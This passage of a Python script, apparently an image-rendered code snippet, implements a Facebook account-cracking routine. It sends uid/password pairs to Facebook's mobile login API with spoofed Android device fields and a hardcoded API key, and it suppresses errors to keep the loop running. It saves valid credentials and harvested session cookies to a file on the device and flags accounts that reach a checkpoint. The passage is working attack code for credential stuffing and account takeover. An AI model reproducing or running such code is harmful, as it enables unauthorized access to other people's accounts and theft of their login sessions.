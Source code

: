                 'api_key': '882a8490361da98702bf97a021ddc14d',
                'fb_api_analytics_tags': '["GDPR","GLOBAL"]',
                'fb_api_platform': 'ANDROID',
                'fb_api_session_id': str(uuid.uuid4()),
                'fb_api_client_time': str(int(time.time())),
                'device_country': 'pk',
                'logging_id': ''.join(random.choices('0123456789abcdef', k=32)),
                'jazoest': '2' + str(random.randint(10, 99)),
                'machine_id': ''.join(random.choices('0123456789abcdefghijklmnopqrstuvwxyz', k=24))
            }

            encoded_payload = urllib.parse.urlencode(payload)

            buffer = BytesIO()
            c = pycurl.Curl()
            c.setopt(c.URL, 'https://b-api.facebook.com/auth/login')
            c.setopt(c.POST, 1)
            c.setopt(c.POSTFIELDS, encoded_payload)
            c.setopt(c.WRITEDATA, buffer)
            c.setopt(c.TIMEOUT, 10)

            header_list = [f"{key}: {value}" for key, value in headers.items()]
            c.setopt(c.HTTPHEADER, header_list)

            c.perform()
            response_body = buffer.getvalue().decode('utf-8')
            response = json.loads(response_body)

            c.close()
            buffer.close()

            if 'session_key' in response:
                self.handle_success(uid, password, response)
                return True
            elif 'www.facebook.com' in response.get('error', {}).get('message', ''):
                self.handle_partial(uid, password)
                return True

        except Exception as e:
            # Silently ignore errors to continue the loop
            pass

        return False

    def handle_success(self, uid, password, response):
        coki = ';'.join([f"{c['name']}={c['value']}" for c in response.get('session_cookies', [])])
        print(f'\r  {self.color.G}\x1b[1;96m   ➤ ALPHA {self.color.W}{uid}|{self.color.G}{password}{self.color.W}')
        with open('/sdcard/ASIM-OLD.txt', 'a') as f:
            f.write(f'{uid}|{password}|{coki}\n')
        self.oks.append(uid)

    def handle_partial(self, uid, password):
        print(f'\r  {self.color.Y}\x1b[1;96m   ➤ OK {self.color.G}{uid}{self.color.Y}•\x1b[1;90m{password}{self.color.W}')
        with open('/sdcard/ASIM-OLD.txt', 'a') as f:
            f.write(f'{uid}|{password}\n')
        self.cps.append(uid)
